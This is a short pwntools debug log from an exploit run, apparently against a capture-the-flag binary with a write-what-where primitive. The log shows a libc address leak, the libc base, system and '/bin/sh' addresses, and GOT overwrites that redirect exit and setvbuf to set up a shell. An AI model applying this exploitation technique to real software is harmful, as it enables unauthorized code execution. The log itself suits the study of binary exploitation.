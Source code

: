 ```
    00000009
[*] exit -> main
[DEBUG] Received 0x18 bytes:
    00000000  d0 09 28 b2  e7 7f 0a 87  28 ad fb 0a  77 72 69 74  │··(·│····│(···│writ│
    00000010  65 0a 77 68  61 74 3f 0a                            │e·wh│at?·│
    00000018
[*] hex(leak)='0x7fe7b22809d0'
[*] hex(libc_base)='0x7fe7b2200000'
[*] hex(system)='0x7fe7b224fa60'
[*] hex(bin_sh)='0x7fe7b23abf05'
[DEBUG] Sent 0x4 bytes:
    00000000  ca 11 40 00                                         │··@·│
    00000004
[DEBUG] Received 0x7 bytes:
    b'where?\n'
[DEBUG] Sent 0x9 bytes:
    00000000  34 32 31 30  37 34 34 00  00                        │4210│744·│·│
    00000009
[*] exit -> after init
[DEBUG] Received 0xc bytes:
    b'write\n'
    b'what?\n'
[DEBUG] Sent 0x4 bytes:
    00000000  60 fa 24 b2                                         │`·$·│
    00000004
[DEBUG] Received 0x7 bytes:
    b'where?\n'
[DEBUG] Sent 0x9 bytes:
    00000000  34 32 31 30  37 32 38 00  00                        │4210│728·│·│
    00000009
[DEBUG] Received 0xc bytes:
    b'write\n'
    b'what?\n'
[DEBUG] Sent 0x4 bytes:
    00000000  e7 7f 00 00                                         │····│
    00000004
[DEBUG] Received 0x7 bytes:
    b'where?\n'
[DEBUG] Sent 0x9 bytes:
    00000000  34 32 31 30  37 33 32 00  00                        │4210│732·│·│
    00000009
[*] setvbuf -> system
[DEBUG] Received 0xc bytes:
    b'write\n'
    b'what?\n'
[DEBUG] Sent 0x4 bytes:
    00000000  05 bf 3a b2                                         │··:·│
    00000004
[DEBUG] Received 0x7 bytes:
    b'where?\n'
[DEBUG] Sent 0x9 bytes:
    00000000  34 32 31 30  37 38 34 00  00                        │4210│784·│·│
    00000009
[DEBUG] Received 0xc bytes:
    b'write\n'
    b'what?\n'
[DEBUG] Sent 0x4 bytes:
    00000000  e7 7f 00 00                                         │····│
    00000004
[DEBUG] Received 0x7 bytes:
    b'where?\n'
[DEBUG] Sent 0x9 bytes:
    00000000  34 32 31 30  37 38 38 00  00                        │4210│788·│·│
```